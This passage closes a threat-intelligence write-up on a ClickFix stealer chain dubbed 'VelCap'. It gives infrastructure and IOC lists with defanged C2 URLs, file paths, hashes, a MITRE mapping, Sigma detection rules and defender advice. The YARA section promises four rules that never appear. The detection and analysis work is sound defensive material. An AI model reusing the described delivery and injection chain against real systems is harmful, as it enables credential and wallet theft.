|---|---|
| `cloudmegaupload[.]com` | Created 2026-04-08, PDR Ltd (Seychelles WHOIS), Cloudflare NS, Let's Encrypt. Serves `/velcap4a`, `/velcap4b`, `/velcap4d`, `/velcap4e`. |
| `62.238.41[.]64` | Hetzner Online, AS24940, CLOUD-HEL1 (Helsinki). The range was allocated 2026-05-05. 1/92 detections. |
| `undefined[.]vg` | Registered 2026-10-27 via NICENIC (HK). A record `45.39.255[.]116`. Now 301 to `gmx.net`. |
| `172.96.160[.]208` | Live C2 at analysis time, ports 80 and 443. |
| GTI collection | *"Indonesia Browser Cache Smuggling Activity"* (`4bf06e6480e10b330f3a6c11af72872d916a10f5f291bfb7977ca03f8985ec15`): 18 files, 12 domains, 17 URLs, 6 IPs. Related domains include `vecenter[.]web[.]id` subdomains, `tali128[.]com`, `capsysnet[.]vg` and `ater-sqserv3[.]info`. |

**Assessment.** The lure site, the Arabic/English content and the Saudi school point to Saudi visitors in this wave. The GTI collection shows the same infrastructure in Indonesian-language lures. That fits an operator running one kit with locally adapted lures, but I hold this at **low-medium confidence**. The family is **unattributed**. "VelCap" is our working name from the attacker's own tags: `velcap4*`, `velv`, `rog`, `RuntimeEnvironment.revrog`, `RevRogPYS` and `Global\RL_`.

---

## 9. MITRE ATT&CK Mapping

| Tactic | Technique | ID | Evidence |
|---|---|---|---|
| Initial Access | Drive-by Compromise | T1189 | Fake Turnstile injected into a compromised school site |
| Execution | User Execution: Malicious Copy and Paste | T1204.004 | Win+R / Ctrl+V / Enter |
| Defense Evasion | Masquerading / cache-delivered payload | T1036 | VBS hidden as a browser cache entry, found by size |
| Execution | Command and Scripting Interpreter: VBScript | T1059.005 | `wscript rt.vbs` |
| Execution | Command and Scripting Interpreter: PowerShell | T1059.001 | Stages 2-4 |
| Discovery | System Information Discovery | T1082 | WMI profiling in stage 1 |
| Defense Evasion | Virtualization/Sandbox Evasion | T1497.001 | Battery, GPU, services checks |
| Defense Evasion | Obfuscated Files or Information | T1027 | Junk code, JWT config, split strings |
| Defense Evasion | Dynamic API Resolution | T1027.007 | Runtime P/Invoke, PEB hash walk |
| Command and Control | Ingress Tool Transfer | T1105 | `velcap4*` downloads |
| Persistence / Execution | Scheduled Task | T1053.005 | `RobocopyOnce`, `InitializeOnce`, `SystemDesignTask.RevRogPYS-*` |
| Defense Evasion | Indicator Removal: File Deletion | T1070.004 | Toolkit and HTML self-deletion |
| Defense Evasion | Process Injection: APC | T1055.004 | `pnputil.exe` |
| Defense Evasion | Process Injection: Thread Execution Hijacking | T1055.003 | `RuntimeBroker.exe` |
| Defense Evasion | Reflective Code Loading | T1620 | Packer stub maps the PE in memory |
| Defense Evasion | Match Legitimate Name or Location | T1036.005 | `svchost.exe` VERSIONINFO |
| Credential Access | Credentials from Web Browsers | T1555.003 | SQLite queries, browser injection |
| Credential Access | Steal Web Session Cookie | T1539 | Browser module |
| Collection | Data from Local System | T1005 | 87 desktop-wallet paths, Viber |
| Collection | Screen Capture | T1113 | `image/jpeg` uploads |
| Command and Control | Web Protocols | T1071.001 | `GET /api/currentVersion`, UA `M/1.0` |

---

## 10. Detection & IOCs

### 10.1 Network

```text
hxxps://cloudmegaupload[.]com/velcap4a   (also /velcap4b, /velcap4d, /velcap4e)
hxxp://62.238.41[.]64/velcap4b
hxxp://62.238.41[.]64/velcap4c
undefined[.]vg                            -> 45.39.255[.]116
hxxp://172.96.160[.]208/api/currentVersion   (C2, ports 80 and 443)
nvidia-update[.]cc                        -> 91.148.190[.]70
systemdriver-update[.]vg                  -> 31.58.179[.]60
User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)
User-Agent: M/1.0
```

### 10.2 Host artifacts

```text
HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU   (cmd ... f_* ... rt.vbs ... wscript)
%LOCALAPPDATA%\BraveSoftware\Brave-Browser\User Data\...\Cache_Data\rt.vbs
%TEMP%\v.dat
%TEMP%\a075645b3762542c756453cap5van.html
%APPDATA%\a075645b3762542c756453cap5van.html
%APPDATA%\renv.zip
%APPDATA%\RuntimeEnvironmentCap5\   |   %APPDATA%\RuntimeEnvironmentVTC3\
%APPDATA%\RuntimeEnvironment.revrog\Python\systemcheck.pyw
%APPDATA%\RuntimeEnvironment.revrog\Python\Lib\site-packages\_cffi_backend.cp314-win_amd64.dat
%APPDATA%\RuntimeEnvironment.revrog\build_openai
Scheduled tasks: RobocopyOnce, InitializeOnce, SystemDesignTask.RevRogPYS-<SID>
Mutex: Global\RL_<suffix>
```

### 10.3 File hashes (SHA256)

| Stage | SHA256 |
|---|---|
| Stage 1 `rt.vbs` NEW Malware | `8d2608a0a10578b48269bf95aa9ea8064ca4c5f727d685250a7238a274aeb49e` |
| Stage 1 `venv.vbs` OLD Malware | `76b2539cf16e96fadb828528d59bf78b7b714f5b02b5aa4e4c90f8079e06de56` |
| Stage 2 `v.dat` | `f34bd52e3f418998c2320c829d7730750405b4ea481deab5dbafc933b94f7c87` |
| Stage 3 Cap5 | `26fc8a42b68b3925a29bdbe88aa17ae8901eda97224104ef447463b50cfcae6c` |
| Stage 3 VTC3 | `25d2dfc72c270f3874d962ab224d65b2c6790732825dc701ee5dc9a9519659f7` |
| Stage 4 blob `velcap4e` | `8119cca44e2e1f6241f063fb3fde4a1ce7d048cdb07f626392314141df40d154` |
| Stage 4 ZIP | `04f91d074d6007a4b1a1343d3bd05bfc0359a4413edbb55269e72092d8183cc8` |
| Stage 5 shellcode | `8f878a731a1560957f681f77c07171eb0e5d6dfc3c655cc225caf87edd7238b9` |
| Stage 5 PE (unpacked) | `5b5d14c77a7ee2675a377515d1d58f7dcbf26a25cc91a28b257b4d7371de1373` |
| `systemcheck.pyw` | `1407a3b6595de0ce6ca391eec30a0fbafc94f5f8d8a99b0bc1ed7a34d1b83537` |
| `_cffi_backend...dat` | `63d9d70680f03ece2154ff37b3bb9bd6850b13b08865682317f3da3a62c161c2` |
| Stage 7 blob (decrypted) | `8598a81b9f6272bedf170c9dc97326577b54be88d00be000efa50cfd5a43b044` |
| Stage 7 PE (unpacked) | `2e76534cfdcfc440fa86b012a74b79a0de5695b54b0a7de4b49872801d923090` |
| `build_openai` | `d4f09e9155e02049876cb96e33010e6de43ae5955fcfa2d4b4c2931f51b31510` |

### 10.4 Sigma rules

```yaml
title: ClickFix Browser Cache Smuggling - Cached File Renamed and Executed
status: experimental
description: Detects cmd.exe searching a browser profile for cache entries, renaming one to a script and executing it (ClickFix + browser cache smuggling)
author: Mohammad Alattas
date: 2026-10-31
tags: [attack.execution, attack.t1204.004, attack.t1059.005]
logsource: { category: process_creation, product: windows }
detection:
  selection_cmd:
    Image|endswith: '\cmd.exe'
    CommandLine|contains|all: ['User Data', 'f_*', 'ren ']
  selection_exec:
    CommandLine|contains: ['wscript', 'cscript', 'mshta', 'powershell']
  condition: selection_cmd and selection_exec
falsepositives: [Unlikely]
level: high
```

```yaml
title: Headless Conhost Launching PowerShell With Bypass
status: experimental
author: Mohammad Alattas
date: 2026-10-31
tags: [attack.defense-evasion, attack.t1053.005]
logsource: { category: process_creation, product: windows }
detection:
  selection:
    Image|endswith: '\conhost.exe'
    CommandLine|contains|all: ['--headless', 'powershell', 'Bypass']
  condition: selection
level: high
```

```yaml
title: Pnputil Spawned by PowerShell (VelCap APC Injection Host)
status: experimental
author: Mohammad Alattas
date: 2026-10-31
tags: [attack.defense-evasion, attack.t1055.004]
logsource: { category: process_creation, product: windows }
detection:
  selection:
    Image|endswith: '\pnputil.exe'
    ParentImage|endswith: ['\powershell.exe', '\pwsh.exe']
  condition: selection
falsepositives: [Driver deployment scripts - baseline first]
level: high
```

```yaml
title: RuntimeBroker Spawned by Python (Thread Hijack Host)
status: experimental
author: Mohammad Alattas
date: 2026-10-31
tags: [attack.defense-evasion, attack.t1055.003]
logsource: { category: process_creation, product: windows }
detection:
  selection:
    Image|endswith: '\RuntimeBroker.exe'
    ParentImage|endswith: ['\python.exe', '\pythonw.exe']
  condition: selection
level: critical
```

### 10.5 YARA

The four rules below were validated against their targets with zero false positives, actually after I finished the investigation I run the malware by mistake so I did a live investigation and confirmed it works :). 

---

## 11. Closing

What I like about this chain, from the attacker's side, is how little of it ever touches the disk in a form a scanner understands. The first payload arrives as a browser cache entry. The command the user pastes has no URL. The next-stage map looks like a login token. The toolkit dresses up as MinGW license files and deletes itself after few seconds. Two Microsoft-signed processes host the code, and the final stealer brings its own Python. Only the very first VBS was known to public intelligence when I looked.

That is also the lesson for defenders. Hash and domain feeds will catch almost none of this. Behaviour will. A `RunMRU` entry that contains `wscript`, a PowerShell that starts `pnputil.exe`, a `RuntimeBroker.exe` whose parent is `pythonw.exe`, or a "Cloudflare" window on the desktop are each a near-certain sign of trouble. Pick the "Did it reach this stage?" box that matches your telemetry and start hunting there.

And talk to your users about one simple rule: **no real website will ever ask you to press Win + R.**

Thank you :)
